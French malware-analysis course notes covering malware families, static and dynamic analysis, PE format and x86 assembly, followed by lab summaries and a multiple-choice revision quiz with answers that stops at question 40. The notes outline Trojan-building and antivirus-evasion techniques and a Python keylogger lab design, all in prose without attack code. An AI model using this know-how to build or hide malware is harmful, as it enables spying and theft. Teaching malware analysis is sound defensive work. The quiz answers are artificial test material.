


# Architecture Sécurisé

Notes de cours par `Thomas PEUGNET`.

### Introduction

Objectifs principaux du cours :

- Comprendre ce qu’est un malware et comment il se propage.
- Se familiariser avec les différentes familles de logiciels malveillants.
- Apprendre les méthodes d’analyse statique et dynamique d’un code malveillant.
- Savoir mettre en place une réponse à l’incident efficace.

------

### Définition et typologie des logiciels malveillants (Malwares)

#### Définition générale

Un malware (pour “malicious software”) est un programme conçu dans le but de causer un dommage à un système informatique ou de permettre à un attaquant de prendre un contrôle non autorisé (partiel ou total) sur celui-ci, généralement pour du vol, de la fraude ou de la perturbation de services.

#### Vecteurs d’attaque

Les malwares se propagent par de multiples canaux, dont :

- Messagerie instantanée (envoi de liens, pièces jointes malveillantes).
- IRC (Internet Relay Chat) : canaux de discussion où circulent des bots.
- Disques amovibles : clés USB infectées, disques durs externes vérolés.
- Pièces jointes d’e-mails : spam, phishing.
- Failles de navigateurs ou logiciels de messagerie : plugins vulnérables, scripts malicieux.
- Partage de fichiers P2P : distribution de copies infectées.
- Programmes factices ou "cracks" : versions contrefaites d’applications légitimes.
- Sites Web malveillants : drive-by downloads, exécutions automatiques de scripts.

------

### Les grandes familles de malwares

1. **Virus**
   - Se greffe sur un programme-hôte pour en modifier le comportement.
   - Peut être contenu dans un greffon ou amorce qui télécharge le reste du virus.
   - Capacité de se recopier vers d’autres programmes pour se propager.
2. **Vers (Worms)**
   - Se propage principalement via le réseau.
   - Anciennement distincts des virus, la frontière est aujourd’hui très floue.
   - Peut créer des “bots” qui attendent des instructions pour lancer des attaques DDoS ou autres.
3. **Chevaux de Troie (Trojans)**
   - Se présentent comme légitimes (jeux, outils, etc.) mais exécutent des actions cachées (ex. sabotage, exfiltration).
   - Peuvent désactiver l’antivirus, ouvrir des portes dérobées, voler des informations.
4. **Botnets**
   - Réseau d’ordinateurs zombies contrôlés à distance pour des attaques massives (DDoS, spam, etc.).
   - L’infection peut rester discrète tant qu’aucun ordre n’est donné.
5. **RATs (Remote Administration Tools)**
   - Permettent une prise de contrôle à distance d’une machine ciblée (souvent via ports 80 et 443).
   - Employés dans des attaques ciblées (espionnage, vol de données, persistance).
6. **Backdoors**
   - Permettent à un attaquant de revenir ultérieurement sur le système compromis.
   - Peuvent être installées par un virus, un ver ou un cheval de Troie.
7. **Bombes logiques (Logic Bombs)**
   - Code dormant qui se déclenche à une date précise ou selon un événement particulier.
   - Souvent employé pour saboter un système de l’intérieur (ex. par un employé mécontent).
8. **Spywares**
   - Logiciels espions qui collectent à l’insu de l’utilisateur des informations confidentielles (keyloggers, captures écran, etc.).
   - Peuvent transmettre ces données à un serveur distant (ex. identifiants, mots de passe).
9. **Ransomwares**
   - Chiffrent les données de la victime et réclament une rançon pour la clé de déchiffrement.
   - Source croissante d’attaques très médiatisées (ex. cryptolockers).
10. **Rootkits**
    - Se chargent en profondeur (mode noyau ou utilisateur) pour cacher l’existence même du malware.
    - Difficiles à détecter, peuvent falsifier les informations renvoyées à l’utilisateur ou à l’antivirus.

------

### Le cas spécifique des Trojans

Les Trojans se déclinent en plusieurs sous-types :

- Command Shell Trojans : ouvrent un shell distant sur la machine infectée, accessible à l’attaquant.
- Reverse Shell Trojans : la machine infectée initie la connexion vers l’attaquant.
- Proxy Trojans : détournent la machine pour en faire un relais d’attaque ou de navigation illicite.
- Trojan utilisant un tunnel : encapsulent le trafic (ex. dans ICMP) pour contourner les détections.
- E-Banking Trojans : ciblent spécifiquement les transactions bancaires, vol de creds, injection de formulaires, etc.

**Objectifs courants :**

- Supprimer ou remplacer des fichiers critiques.
- Désactiver antivirus et pare-feu.
- Mener une attaque DDoS, créer un accès distant (backdoor).
- Exfiltrer des données sensibles (mots de passe, cartes bancaires).
- Transformer la machine en relais (proxy, spam).

**Techniques d’infection :**

1. Création d’un Trojan via des kits spécialisés (ex. Metasploit).
2. Inclusion d’un “dropper” chargé d’installer le code malveillant.
3. Association (wrapper) avec une application légitime (pour tromper l’utilisateur).
4. Propagation par mail, sites infectés, clés USB, etc.
5. Exécution et installation discrète du Trojan.

**Évasion des antivirus :**

- Compression ou chiffrement.
- Changement de signatures (checksum).
- Envelopper le Trojan dans différents formats.
- Modifier la syntaxe du code, générer des polymorphismes.

------

### Réponse à une infection et buts de l’analyse de malware

Lorsqu’un malware est découvert sur un poste, réinstaller le système ou supprimer le fichier infecté ne suffit pas toujours :

- L’attaquant a pu laisser d’autres portes dérobées.
- Des données peuvent avoir été volées.
- La menace pourrait s’être propagée à d’autres machines du réseau.

Analyse de codes malveillants :

- Comprendre le fonctionnement du malware (quelles actions ? quelles cibles ?).
- Identifier tous les indicateurs de compromission : fichiers, clés de registre, adresses IP, etc.
- Déterminer comment le malware s’est introduit (faille, phishing…).
- Élaborer un plan d’éradication et de remédiation (patch, règles de détection IDS/IPS, signatures antivirus, etc.).

Les signatures peuvent être :

- Host-based : détection de fichiers, clés de registre, hash.
- Network-based : surveillance du trafic sortant, URLs, patterns spécifiques.

### Méthodologie d’analyse de malware

On distingue :

- Analyse statique : observation du binaire sans l’exécuter.
- Analyse dynamique : exécution du binaire dans un environnement contrôlé (sandbox, VM) pour étudier son comportement.

#### Analyse statique basique

- Scan antivirus : utiliser un moteur local ou un service multi-moteur (ex. VirusTotal).
- Calcul de hachage (MD5, SHA-1) : identifier le fichier de manière unique, comparer avec des bases de données connues.
- Extraction de chaînes (strings) : repérage d’adresses IP, noms de DLL, URLs, messages d’erreur internes, etc.
  - Limite : si le malware est compressé ou packé, les chaînes ne seront pas visibles.

#### Analyse dynamique basique

- Exécuter le malware

   dans une machine virtuelle isolée et observer :

  - Créations de processus, modification du registre, fichiers générés, connexions réseau…

- Outils : Process Monitor, Process Hacker, Wireshark, etc.

- Snapshots : permettre de revenir en arrière après l’exécution.

#### Analyse avancée

- Analyse statique avancée :
  - Désassemblage (IDA Pro, radare2) pour lire le code assembleur, repérer les imports, comprendre la logique.
  - Requiert des connaissances en langage assembleur et en architecture PE.
- Analyse dynamique avancée :
  - Débogage pas à pas (Immunity Debugger, x64dbg) pour examiner le flux d’exécution, la mémoire, les registres.
  - Mise en place de breakpoints sur des fonctions critiques (ex. CreateProcess, WriteFile).

Règles générales :

- Ne pas tenter de tout comprendre ; se focaliser sur les fonctionnalités-clés.
- Utiliser plusieurs outils complémentaires.

------

### Format Portable Executable (PE) sur Windows

Le PE file format est la structure standard des exécutables et librairies Windows (EXE, DLL, FON, etc.). Il est issu du format COFF et contient :

- Headers (DOS Header, PE Header)
- Tables : Import Table, Export Table, etc.
- Sections :
  - `.text` (code exécutable)
  - `.data` (données globales)
  - `.rdata` (imports/exports)
  - `.rsrc` (ressources : icônes, menus)
  - `.reloc` (relocations pour l’éditeur de liens)

RVA (Relative Virtual Address) : adresse relative une fois le module chargé, différente de l’offset dans le fichier brut.

#### Imports et exports

- Imports : liste des fonctions externes utilisées, par ex. 

  ```
  CreateFile
  ```

   (Kernel32.dll), 

  ```
  SetWindowsHookEx
  ```

   (User32.dll).

  - Permettent de comprendre les intentions du malware (ex. s’il utilise `URLDownloadToFile`, il télécharge probablement quelque chose).

- Exports : fonctions offertes par une DLL.

#### Édition de liens

- Statique : code de la librairie inclus dans l’EXE. Rare sous Windows.
- Dynamique : l’OS charge la DLL lors de l’exécution, standard Windows.
- À l’exécution : le programme appelle `LoadLibrary`, `GetProcAddress` pour charger des fonctions à la volée, pratique courante en malware packé.

------

### Principes d’assembleur x86 pour l’analyse

L’analyse statique avancée s’appuie sur la lecture du code assembleur produit par le désassembleur. Les points-clés :

1. Registres :
   - EAX, EBX, ECX, EDX : registres généraux (32 bits).
   - ESI, EDI, EBP, ESP : registres d’offset pour manipuler la pile et le data.
   - EIP : pointeur d’instruction.
   - EFLAGS : indicateurs (Zero Flag, Carry Flag, etc.).
2. Endianness : x86 est *little-endian*, la représentation mémoire inverse l’ordre des octets.
3. Instructions principales :
   - `mov destination, source`
   - `add, sub, inc, dec, mul, div`
   - `cmp, test` (affecte les flags, sert aux branches conditionnelles)
   - `jmp, jz, jnz, je, jne, …` (sauts)
   - `call, ret` (appels de fonction)
   - `push, pop` (manipulation de la pile)
   - `nop` (0x90)
4. Pile (Stack) :
   - LIFO, pointe avec ESP, base de fonction EBP.
   - `push` décrémente ESP, `pop` l’incrémente.

#### Appels de fonction

- Convention cdecl (C) : arguments empilés de droite à gauche, nettoyage par l’appelant.
- Convention stdcall (Windows API) : l’appelé nettoie la pile.
- fastcall : premiers arguments dans des registres (ECX, EDX), le reste sur la pile.

Un cadre de fonction classique :

```
push ebp        ; sauvegarde le base pointer
mov ebp, esp    ; le nouveau EBP pointe sur l’ancienne valeur d’ESP
sub esp, ...    ; réserve l’espace pour les variables locales
...
leave           ; mov esp, ebp / pop ebp
ret             ; pop l’ancienne EIP, retourne à l’appelant
```

#### Constructions C en assembleur

- `if` / `else` : se repère via des comparaisons (cmp, test) puis jz/jnz.
- `for` / `while` : initialisation, test, incrémentation, saut en boucle.
- `switch` : peut être implémenté en cascade d’if ou via une jump table.
- Tableaux, structures, objets : usage d’adressage indexé (ex. `[base + registre*4]`), offsets pour champs, passage du pointeur this en ecx pour les classes (compilateurs Microsoft).

------

### Stratégies de détection et de défense

1. Signature-based : antivirus traditionnels, YARA rules.
2. Heuristique / comportementale : sandbox, observation du flux réseau.
3. Contrôle d’intégrité (hash, whitelisting).
4. Écosystème de collaboration : partage de hachages, de règles Snort/Suricata.
5. Réponse à l’incident : isolement de la machine infectée, analyse forensique, restauration/formatage si nécessaire.
6. Prévention : patchs réguliers, formation des utilisateurs, politique d’accès minimal, segmentation réseau.

## Notes sur les TPs

`GPT- Generated` à partir des sujets et des rendus.

### TP1 – KeyLogger

- **Objectif principal :** Développer en Python un keylogger simple avec la bibliothèque `pynput`.
- Points marquants :
  - Gestion des frappes : redirection des touches vers une variable `log`.
  - Traitement des touches spéciales (espaces, retour chariot, backspace).
  - Écriture dans un fichier externe (log.txt) et problématiques de sécurité associées (visibilité du fichier, détection antivirus).
  - Possibilité de lancer le keylogger en tâche de fond avec `threading.Timer` pour des rapports réguliers.
  - Discussion sur la légitimité (parental control, entreprise, etc.) et la dangerosité (vol de mots de passe, espionnage).

### TP2 – Analyse d’un Malware

- **But :** Choisir un échantillon de malware (ex. keylogger Ardamax) et appliquer une double analyse (statique et dynamique).
- Analyse statique :
  - Utilisation de VirusTotal (détection multi-antivirus).
  - Exploration des chaînes (strings) révélant les fonctions Windows API ou comportements (WriteFile, DeleteFile…).
  - Observation du format PE, éventuelle compression/obfuscation (entropie élevée).
- Analyse dynamique :
  - Machine virtuelle isolée, utilisation d’outils comme Process Monitor, RegShot.
  - Observation de la création de processus, modifications de registre (persistance), trafic réseau éventuel.
- **Conclusion :** Les deux approches se complètent pour dégager les IoCs et mieux comprendre le cycle de vie du malware.

### TP3 – Ransomware

- **Focalisé sur un ransomware “REX” récupéré via theZoo.**
- Analyse statique :
  - Outils `file`, `strings`, `clamav`, `VirusTotal`.
  - Découverte du mode d’action (chiffrement, demande de rançon, menaces DDoS).
  - Repérage des cibles (ex. sites Drupal vulnérables, dépendance à des serveurs distants).
- Analyse dynamique :
  - Traçage des appels système (strace).
  - Mise en évidence de la communication C&C (connect(…)), modification du système (openat, lecture de `/proc/sys/net/core/somaxconn`), etc.
  - Comportement conditionnel : le ransomware attend une réponse précise (géolocalisation, instructions) pour déclencher l’attaque.
- **Enjeux :** Importance de l’isolement complet de la VM et du monitoring réseau pour comprendre à quel moment le ransomware déclenche son chiffrement.

# DE

`GPT-Generated`, à partir des partiels des années précédentes, du cours, des TPs et de la description de l'examen.

### 1. Qu’appelle-t-on un **malware** ?

A. Un ensemble de règles de sécurité.
 B. Un logiciel malveillant visant à endommager ou prendre le contrôle d’un système.
 C. Un outil de supervision réseau autorisé.
 D. Un protocole chiffré dédié à la communication sécurisée.

> **Réponse :** B. Un logiciel malveillant visant à endommager ou prendre le contrôle d’un système.

------

### 2. Parmi les vecteurs d’attaque courants pour propager un malware, on trouve :

A. Les pare-feu matériels uniquement.
 B. Les failles de navigateur, les e-mails, les disques amovibles, etc.
 C. Les ondes radio cryptées seulement.
 D. Uniquement les serveurs SSH mal configurés.

> **Réponse :** B. Les failles de navigateur, les e-mails, les disques amovibles, etc.

------

### 3. Quel est le **principal objectif** d’un cheval de Troie (Trojan) ?

A. Se propager de manière autonome sur un réseau.
 B. Se cacher en modifiant le noyau de l’OS.
 C. Se faire passer pour un logiciel légitime et exécuter des actions malveillantes.
 D. Chiffrer les données de l’utilisateur pour demander une rançon.

> **Réponse :** C. Se faire passer pour un logiciel légitime et exécuter des actions malveillantes.

------

### 4. Les **vers (worms)** se caractérisent principalement par :

A. Leur propagation via des supports physiques (clés USB, CD).
 B. Leur propagation autonome par le réseau, sans exiger d'interaction humaine.
 C. Un chiffrement des fichiers de la victime.
 D. Le blocage complet de la machine cible au démarrage.

> **Réponse :** B. Leur propagation autonome par le réseau, sans exiger d’interaction humaine.

------

### 5. Un **ransomware** :

A. Chiffre les données d’une victime et réclame une rançon.
 B. Surveille silencieusement les frappes clavier (keylogger).
 C. Désactive toutes les protections antivirus d’un système.
 D. Bloque uniquement l’accès à Internet.

> **Réponse :** A. Chiffre les données d’une victime et réclame une rançon.

------

### 6. Parmi les logiciels malveillants suivants, lequel est conçu pour **camoufler** son existence au sein du système ?

A. Le ver (worm).
 B. Le keylogger.
 C. Le rootkit.
 D. L’adware.

> **Réponse :** C. Le rootkit.

------

### 7. La notion de **botnet** se définit comme :

A. Un réseau pair-à-pair légitime pour le partage de fichiers.
 B. Un réseau de machines infectées (zombies) contrôlées à distance par un attaquant.
 C. Une technique d’isolation applicative.
 D. Un système de détection d’intrusions basé sur l’hôte.

> **Réponse :** B. Un réseau de machines infectées (zombies) contrôlées à distance par un attaquant.

------

### 8. Les **RATs (Remote Administration Tools)** :

A. Sont des outils réseau qui scannent les ports ouverts.
 B. Permettent une prise de contrôle à distance d’une machine infectée.
 C. Ne fonctionnent que sur des systèmes Linux.
 D. Sont des kits de compilation pour créer des vers polymorphes.

> **Réponse :** B. Permettent une prise de contrôle à distance d’une machine infectée.

------

### 9. Un **keylogger** a pour fonction première de :

A. Chiffrer tous les fichiers de l’ordinateur.
 B. Surveiller et enregistrer toutes les frappes au clavier.
 C. Bloquer le fonctionnement des navigateurs web.
 D. Empêcher les mises à jour du système.

> **Réponse :** B. Surveiller et enregistrer toutes les frappes au clavier.

------

### 10. À propos du **format PE (Portable Executable)** sur Windows :

A. Il n’est utilisé que pour les bibliothèques (DLL).
 B. Il s’agit d’un format propriétaire Mac OS.
 C. Il contient des sections (.text, .data, .rdata, etc.) et un header décrivant l’exécutable.
 D. Il a complètement remplacé le format ELF sur toutes les plateformes.

> **Réponse :** C. Il contient des sections (.text, .data, .rdata, etc.) et un header décrivant l’exécutable.

------

### 11. Dans le cadre d’une **analyse statique** basique d’un binaire malveillant, on peut :

A. Lancer le malware en mode sans échec pour observer son comportement.
 B. Surveiller en temps réel la mémoire et les connexions réseau.
 C. Examiner le code sans l’exécuter, par exemple avec un désassembleur ou la commande `strings`.
 D. Calculer la durée d’exécution totale pour chaque sous-routine.

> **Réponse :** C. Examiner le code sans l’exécuter, par exemple avec un désassembleur ou `strings`.

------

### 12. Quel est **l’intérêt** de calculer le **hash** (MD5, SHA-1, etc.) d’un fichier suspect ?

A. Accélérer l’exécution du malware.
 B. Empêcher l’antivirus de détecter le malware.
 C. Disposer d’une empreinte unique permettant l’identification et la recherche de ce fichier.
 D. Déterminer la taille mémoire maximale occupée par le malware.

> **Réponse :** C. Avoir une empreinte unique pour identifier et rechercher ce fichier.

------

### 13. Au sujet d’un **packer** (ou d’un binaire packé) :

A. C’est un binaire dont le code est compressé ou chiffré, et décompressé en mémoire à l’exécution.
 B. C’est un programme d’installation légitime pour Windows.
 C. C’est la même chose qu’un Virtual Machine Monitor (VMM).
 D. Il ne peut fonctionner que sur 32 bits.

> **Réponse :** A. Un binaire compressé/chiffré, décompressé en mémoire à l’exécution.

------

### 14. Dans une **analyse dynamique basique**, on cherche souvent à :

A. Exécuter le malware sur une machine de production pour avoir un test réaliste.
 B. Scanner le binaire uniquement à l’aide d’un moteur heuristique.
 C. Observer, en environnement isolé (VM), les actions (création de fichiers, clés de registre, trafic réseau).
 D. Mesurer précisément le temps d’affichage de chaque fenêtre du malware.

> **Réponse :** C. Observer, en environnement isolé, les actions concrètes du malware.

------

### 15. **Process Monitor** (Sysinternals) est un outil qui :

A. Permet de tracer les appels système et les modifications d’éléments clés (fichiers, registre) en temps réel.
 B. Est un pare-feu local bloquant tous les ports réseaux.
 C. Est utilisé exclusivement pour déboguer du code assembleur.
 D. N’existe que sur Linux.

> **Réponse :** A. Il trace en temps réel appels système, modifications de fichiers, du Registre, etc.

------

### 16. L’**édition de liens dynamique** (Dynamic Linking) sur Windows :

A. Permet au système de charger les DLL nécessaires à l’exécutable au moment du lancement.
 B. Indique l’échec d’une compilation en C.
 C. Ne se fait qu’au niveau du BIOS.
 D. N’est jamais utilisée par les malwares pour charger des fonctions à la volée.

> **Réponse :** A. Le système charge les DLL quand le programme démarre.

------

### 17. L’**analyse statique avancée** implique généralement :

A. Se fier uniquement aux signatures antivirus.
 B. Utiliser un désassembleur (IDA Pro, radare2), et étudier le code assembleur pour comprendre la logique.
 C. Lancer le malware sur un OS mobile (Android) pour “voir ce qui se passe”.
 D. Désactiver toutes les défenses du système hôte.

> **Réponse :** B. Employer un désassembleur et analyser l’assembleur pour décrypter la logique.

------

### 18. L’**analyse dynamique avancée** peut inclure :

A. Un débogage pas à pas (step-by-step) via un outil comme x64dbg ou Immunity Debugger.
 B. Une simple exécution du code dans un navigateur web.
 C. Aucun usage de logs ni de snapshots.
 D. L’assemblage du malware à partir de zéro.

> **Réponse :** A. Utiliser un débogueur pas à pas pour observer l’état interne du malware.

------

### 19. On appelle **“signature-based detection”** :

A. La méthode de surveillance du trafic réseau pour intercepter les paquets illégitimes.
 B. L’approche consistant à détecter un malware grâce à l’empreinte (hash) ou un pattern de code connu.
 C. L’installation d’un mot de passe pour chiffrer un exécutable malveillant.
 D. L’analyse en sandbox automatique du comportement global.

> **Réponse :** B. Détecter via une empreinte (hash) ou un pattern de code connu.

------

### 20. Concernant les **signatures host-based** et **network-based** :

A. Les signatures host-based examinent des patterns dans des fichiers, clés de registre ou processus locaux.
 B. Les signatures network-based ne détectent jamais les chevaux de Troie.
 C. Les signatures host-based s’appliquent exclusivement aux machines Linux.
 D. Les signatures network-based requièrent toujours un agent physique branché sur le réseau.

> **Réponse :** A. Les signatures host-based portent sur les fichiers, le Registre, les processus locaux.

------

### 21. Quel est le **rôle** d’un **dropper** dans un cheval de Troie ?

A. Empêcher la victime d’ouvrir un navigateur.
 B. Installer le code malveillant sur la machine (souvent discrètement), avant l’exécution finale du malware.
 C. Chiffrer tout le trafic sortant.
 D. Afficher des publicités ciblées.

> **Réponse :** B. Installer secrètement le malware final sur la machine.

------

### 22. Les **virus polymorphes** :

A. Ne fonctionnent plus depuis Windows XP.
 B. Utilisent des techniques de rotation de clés de chiffrement pour modifier leur signature à chaque infection.
 C. Sont strictement identiques à un rootkit.
 D. Sont un type de ransomware en cloud.

> **Réponse :** B. Ils changent leur signature (chiffrement, mutation) à chaque infection.

------

### 23. Les **RATs** (Remote Administration Tools) se différencient des **botnets** classiques car :

A. Les RATs peuvent cibler moins de machines mais de façon plus ciblée (attaques dirigées, espionnage).
 B. Les botnets sont forcément utilisés pour miner de la cryptomonnaie.
 C. Les RATs sont des antivirus officiels développés par Microsoft.
 D. Les RATs ne s’installent jamais de façon persistante.

> **Réponse :** A. Les RATs sont souvent employés dans des attaques ciblées, alors que les botnets concernent plus de machines simultanément pour des usages massifs (DDoS, spam…).

------

### 24. Dans la **méthodologie d’analyse d’un incident** lié à un malware découvert :

A. On se contente de redémarrer la machine pour s’assurer de l’éradication.
 B. On cherche à identifier la source d’infection et à savoir si un rootkit/backdoor s’est déployé.
 C. On ne procède jamais à la création de règles de détection.
 D. On ne fait aucune sauvegarde.

> **Réponse :** B. On tente notamment de déterminer l’origine de l’intrusion et si d’autres malwares (rootkit, backdoor) persistent.

------

### 25. L’**adresse EIP** (Extended Instruction Pointer) sur x86 :

A. Indique l’adresse de la pile (Stack Pointer).
 B. Est le registre qui pointe vers l’instruction en cours d’exécution.
 C. N’existe pas, c’est un mythe.
 D. Appartient aux registres de segment (DS, CS, FS…).

> **Réponse :** B. EIP pointe vers l’instruction en cours ou la suivante (compteur ordinal).

------

### 26. Les **Instructions NOP** (No Operation, opcode 0x90) :

A. Permettent parfois d’ajouter un “sled” (suite de NOP) pour faciliter l’exécution d’un shellcode.
 B. Interrompent immédiatement l’exécution du programme.
 C. Déclenchent une exception de type “division par zéro”.
 D. Établissent un tunnel chiffré.

> **Réponse :** A. On peut former un “NOP-sled” pour orienter l’exécution vers le shellcode.

------

### 27. Dans le cadre d’un **buffer overflow**, la **pile** (stack) :

A. N’est jamais modifiable par un code C.
 B. Peut être écrasée si on dépasse la taille allouée à un tampon, corrompant EIP.
 C. N’existe pas en mode utilisateur.
 D. Est toujours protégée par défaut par le système d’exploitation.

> **Réponse :** B. Un dépassement de tampon peut écraser la pile jusqu’à EIP.

------

### 28. On parle de **Dynamic Analysis** si :

A. On teste le code sans jamais l’exécuter (uniquement via un éditeur hexadécimal).
 B. On exécute le malware dans un environnement contrôlé pour en surveiller l’impact et le comportement.
 C. On modifie le binaire pour changer son endianness.
 D. On s’appuie sur l’arborescence des symboles en C.

> **Réponse :** B. Exécuter le malware en sandbox/VM et observer son comportement.

------

### 29. Dans l’**architecture x86**, le registre **EBP** (Base Pointer) :

A. Est souvent utilisé pour référencer les variables locales et paramètres d’une fonction (dans un stack frame).
 B. Stocke la valeur de retour d’une fonction.
 C. N’existe que sur des processeurs ARM.
 D. Désigne l’adresse physique absolue.

> **Réponse :** A. EBP sert de base pour référencer les variables/paramètres dans un stack frame.

------

### 30. Les **dlls** (Dynamic Link Libraries) :

A. Ne peuvent jamais être importées statiquement.
 B. Fournissent au programme principal des fonctions externalisées qu’il peut appeler.
 C. Rendent obligatoirement le logiciel open source.
 D. Se chargent uniquement en mode noyau.

> **Réponse :** B. Elles offrent des fonctions externes au programme qui les importe.

------

### 31. En **analyse statique** basique, la commande `strings` sous Linux :

A. Affiche toutes les chaînes de caractères (ASCII ou Unicode) d’un fichier, susceptibles d’indiquer des URLs ou API.
 B. Exécute un test d’intrusion réseau.
 C. Permet de lancer le binaire en mode debug.
 D. Sert exclusivement à renommer un fichier.

> **Réponse :** A. `strings` affiche les chaînes textuelles repérables dans un binaire.

------

### 32. Dans un malware, la **section .rsrc** (ressources) peut contenir :

A. Les registres du noyau.
 B. Des icônes, menus, ou chaînes de texte utilisées par le programme.
 C. Les instructions principales (code exécutable).
 D. Les paramètres de l’ASLR (Address Space Layout Randomization).

> **Réponse :** B. Des ressources (icônes, menus, textes) embarquées dans l’exécutable.

------

### 33. Le **rootkit en mode noyau** (kernel-mode) :

A. Ne peut pas modifier les appels systèmes (syscalls).
 B. Dispose de privilèges élevés et peut altérer la façon dont l’OS gère les processus, rendant sa détection plus difficile.
 C. Se limite à faire du spam.
 D. Fonctionne uniquement sur Android.

> **Réponse :** B. Il a un accès privilégié et peut masquer ses traces de manière très profonde.

------

### 34. Lorsqu’on évoque **l’entropie** d’un fichier exécutable :

A. Une entropie proche de 8 indique souvent que le fichier est compressé ou chiffré.
 B. Elle ne se calcule pas, c’est un concept purement théorique.
 C. On obtient toujours une valeur négative.
 D. Cela signifie que le fichier est trop gros pour être analysé.

> **Réponse :** A. Plus l’entropie est élevée, plus il est probable que le fichier soit packé ou chiffré.

------

### 35. Dans un **code assembleur x86**, l’instruction `cmp eax, ebx` sert à :

A. Déplacer la valeur de ebx dans eax.
 B. Soustraire ebx de eax et modifier les flags sans stocker le résultat.
 C. Décompiler ebx en pseudo-code.
 D. Convertir eax en 64 bits.

> **Réponse :** B. Elle effectue eax - ebx pour mettre à jour les drapeaux (ZF, CF, etc.) sans conserver le résultat.

------

### 36. L’instruction `call` en assembleur :

A. Permet de réaliser un saut inconditionnel sans sauvegarder l’adresse de retour.
 B. Charge un driver en kernel mode.
 C. Empile (push) l’adresse de retour, puis saute à la fonction appelée.
 D. Renvoie systématiquement l’exécution à l’instruction suivante.

> **Réponse :** C. `call` empile l’adresse de retour et saute vers la fonction.

------

### 37. Le concept d’**anti-VM** (anti-virtualisation) dans certains malwares :

A. Est une technique visant à rendre un binaire incompatible avec l’architecture x64.
 B. Permet de détecter si l’environnement d’exécution est une machine virtuelle afin d’arrêter ou de modifier le comportement du malware.
 C. N’existe que sur des systèmes macOS.
 D. Ne concerne que la virtualisation CPU.

> **Réponse :** B. Le malware vérifie s’il tourne dans une VM et réagit (freine l’exécution, arrête ses actions…).

------

### 38. **Reverse Shell** Trojan signifie :

A. La machine victime initie la connexion vers la machine de l’attaquant pour lui offrir un shell distant.
 B. L’attaquant se connecte librement à la machine victime sur un port aléatoire, sans que la victime ne fasse quoi que ce soit.
 C. Le Trojan ne sert qu’à chiffrer des données.
 D. Le Trojan s’exécute uniquement dans un navigateur.

> **Réponse :** A. C’est la cible qui initie la connexion vers le pirate, offrant un shell à distance.

------

### 39. Dans le contexte des **malwares bancaires** (ex. e-banking Trojan) :

A. Ils ne ciblent que les systèmes Linux.
 B. Ils visent souvent à intercepter les données de connexion aux comptes, numéros de carte, ou à modifier des transactions bancaires en direct.
 C. Ils ne manipulent que les icônes sur le bureau.
 D. Ils se désactivent dès que l’antivirus est actif.

> **Réponse :** B. L’objectif typique est de voler ou d’altérer les données bancaires et transactions.

------

### 40. Pour **protéger** un système face aux malwares, on conseille notamment :

A. De laisser les ports réseau ouverts pour la fluidité.
